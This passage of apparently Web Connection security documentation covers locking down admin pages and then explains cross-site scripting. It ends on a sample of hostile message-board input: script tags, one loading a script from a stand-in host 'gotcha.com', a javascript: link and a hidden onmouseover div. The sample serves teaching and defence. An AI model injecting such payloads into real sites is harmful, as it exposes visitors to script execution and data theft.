 * The `admin/Admin.aspx` Page
* Web Connection .NET or ISAPI Handler Administration

These two pages contain very sensitive operations that let you change the application's system behavior that can take down your site.

For this reason it's very important to make sure these pages are not accessible.

Start by removing `IUSR_` rights from the `admin` folder in your Web Connection site. This disallows anonymous access and essentially forces a login to any physical pages in that folder.

Next make sure that the `AdminAccount` key in `web.config` or `wc.ini` **is not empty**. This account is used to protect the Handler admin page and if it is not set the page is openly accessible. By default this value is set to `ANY` which means any authenticated user can access the page, but it's better to apply a specific account or comma delimited accounts that can access the page.

## Script Attacks
One common attack vector for hackers is to try to hack scripts and dynamic code generation code by 'injecting' malicious code into user input. Any site that takes user input has to be very aware of how that input might be displayed later. 

Always be wary of data that is entered and then displayed back to users. There are a number of different attacks but the most popular even to this day are:

* Cross Site Scripting (XSS) Attacks
* Sql Injection Attacks


### Cross Site Script (XSS) Attacks
Cross site scripting gets its name from the idea that almost any code that manages to get injected into a page, ends up sending data to another site, thereby stealing potentially sensitive data.

#### What is XSS?
XSS works through user input and injecting script code into the input in hopes that the site operator doesn't properly sanitize their input. The problem with input is that if you simply echo back raw HTML tags as is without Sanitizing them these HTML tags will render as - well HTML. The problem is that HTML also has support for script execution in a number of ways and if a black hat can plant a bit of script code into user input that is then displayed to all users who get to see his user input - somebody just won at XSS Bingo!

So say, you are running a message board like I do and you take raw user input. Lets say I allow users to type plain text or markdown. Now our Fred Hacker comes along and types this into my simple `<textara>`


```markdown
Hey, 

Cool Site.

<script>alert('gotcha!')</script> 

<script src="https://gotcha.com/evilMindedWizard.js"></script>

Like what you've done here. Come check out 
<a href="javascript: alert('gotcha')>my site</a>

<div style="padding: 20px;opacity: 0" onmouseover="alert('mouse gotcha');">
</div>
```
